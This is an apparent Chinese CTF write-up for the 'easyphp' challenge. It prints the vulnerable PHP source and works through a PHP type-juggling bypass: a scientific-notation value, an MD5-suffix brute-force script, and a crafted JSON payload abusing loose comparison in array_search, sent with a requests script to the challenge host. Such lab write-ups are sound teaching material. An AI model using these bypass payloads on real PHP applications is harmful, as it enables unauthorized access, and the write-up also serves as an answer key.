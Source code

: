 # easyphp

知识点：代码审计+强弱类型+array_search绕过

[参考教程](https://blog.csdn.net/bmth666/article/details/104769645)

```php
<?php
highlight_file(__FILE__);
$key1 = 0;
$key2 = 0;

$a = $_GET['a'];
$b = $_GET['b'];

if(isset($a) && intval($a) > 6000000 && strlen($a) <= 3){ 
    if(isset($b) && '8b184b' === substr(md5($b),-6,6)){
        $key1 = 1;
    }else{
        die("Emmm...再想想");
    }
}else{
    die("Emmm...");
}

$c=(array)json_decode(@$_GET['c']);
if(is_array($c) && !is_numeric(@$c["m"]) && $c["m"] > 2022){
    if(is_array(@$c["n"]) && count($c["n"]) == 2 && is_array($c["n"][0])){
        $d = array_search("DGGJ", $c["n"]);
        $d === false?die("no..."):NULL;
        foreach($c["n"] as $key=>$val){
            $val==="DGGJ"?die("no......"):NULL;
        }
        $key2 = 1;
    }else{
        die("no hack");
    }
}else{
    die("no");
}

if($key1 && $key2){
    include "Hgfks.php";
    echo "You're right"."\n";
    echo $flag;
}

?> Emmm...
```

**代码逻辑**

构造`$a = 6e7`

- 检查 `a` 是否存在并且将其转换为整数（`intval($a)`）。

- 确保 `a` 大于 6000000 且长度小于等于 3（意味着 `a` 是一个 600 万到 999 万之间的整数）。

构造`$b = 53724`

```python
import hashlib
# 创建一个生成MD5哈希并检查后六位是否为'8b184b'的函数
def find_md5_suffix():
    i = 0
    target_suffix = '8b184b'
    
    while True:
        # 计算当前数值的MD5哈希
        md5_hash = hashlib.md5(str(i).encode()).hexdigest()
        
        # 检查后六位是否等于目标值
        if md5_hash[-6:] == target_suffix:
            return i, md5_hash
       
        i += 1

# 调用函数查找符合条件的值
result = find_md5_suffix()
```



- 检查 `b` 是否存在，并且计算其 MD5 值，然后取其最后 6 个字符。
- 验证这 6 个字符是否与 `8b184b` 相等。
- 如果条件不满足，程序终止输出 `"Emmm...再想想"`。
- 如果条件满足，将 `$key1` 置为 1。



- 将 `$_GET['c']` 通过 `json_decode()` 解码为一个 PHP 数组，并强制转换为数组类型。使用 `@` 来忽略潜在的解码错误。
- 检查 `c` 是否为数组，`c["m"]` 是否为非数字，并且 `c["m"]` 是否大于 2022。
- 如果不满足这些条件，程序终止并输出 `"no"`。
- 使用 `array_search()` 函数在 `c["n"]` 数组中查找字符串 `"DGGJ"`，如果找不到，程序终止并输出 `"no..."`。(array_search() 函数在数组中搜索某个键值，并返回对应的键名。)
- 并且后续的`===`比较时，不能够等于`"DGGJ"`

```python
import requests
import json
# 构造符合条件的 JSON 对象
c_data = {
    "m": "2023abc",  # 非数字且大于 2022,会自动截断
    "n": [[], 0]  # n 是一个包含 2 个元素的数组，n[0] 是一个数组
}
# 将 Python 对象转换为 JSON 字符串
c_json = json.dumps(c_data)
print(c_json)
# 目标URL
url = "http://61.147.171.105:57022/"
payload= {'a': '6e7', 'b': '53724', 'c': c_json}
response = requests.get(url, params=payload)
print(response.text)
```

在`array_search()` 中，比较是`==`，而且`"字符串" == 0`是成立的，因此，只要让一个数组下标非零的位置值为0，那么`array_search()` 就会返回0值的下标，因为下标非0，所以为true。